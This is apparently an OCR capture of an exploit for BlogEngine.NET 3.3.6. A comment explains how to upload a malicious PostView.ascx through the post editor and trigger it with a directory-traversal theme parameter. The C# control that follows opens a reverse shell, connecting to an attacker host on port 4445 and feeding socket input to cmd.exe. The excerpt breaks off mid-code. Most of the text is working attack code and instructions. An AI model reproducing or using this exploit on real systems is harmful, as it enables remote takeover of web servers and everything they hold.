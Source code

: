 ```shell
 * the default theme for rendering blog pages.  The vulnerable code can
 * be seen in this file:
 *
 * /Custom/Controls/PostList.ascx.cs
 *
 * Attack:
 *
 * First, we set the TcpClient address and port within the method below to
 * our attack host, who has a reverse tcp listener waiting for a connection.
 * Next, we upload this file through the file manager.  In the current (3.3.6)
 * version of BlogEngine, this is done by editing a post and clicking on the
 * icon that looks like an open file in the toolbar.  Note that this file must
 * be uploaded as PostView.ascx. Once uploaded, the file will be in the
 * /App_Data/files directory off of the document root. The admin page that
 * allows upload is:
 *
 * http://10.10.10.10/admin/app/editor/editpost.cshtml
 *
 *
 * Finally, the vulnerability is triggered by accessing the base URL for the
 * blog with a theme override specified like so:
 *
 * http://10.10.10.10/?theme=../../App_Data/files
 *
 */

<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
  static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

  using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.11.121.104", 4445)) {
    using(System.IO.Stream stream = client.GetStream()) {
      using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
        streamWriter = new System.IO.StreamWriter(stream);

        StringBuilder strInput = new StringBuilder();

        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = "cmd.exe";
        p.StartInfo.CreateNoWindow = true;
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.StartInfo.RedirectStandardInput = true;
        p.StartInfo.RedirectStandardError = true;
        p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
        p.Start();
        p.BeginOutputReadLine();

        while(true) {
          strInput.Append(rdr.ReadLine());
          p.StandardInput.WriteLine(strInput);
          strInput.Remove(0, strInput.Length);
        }
      }
    }
```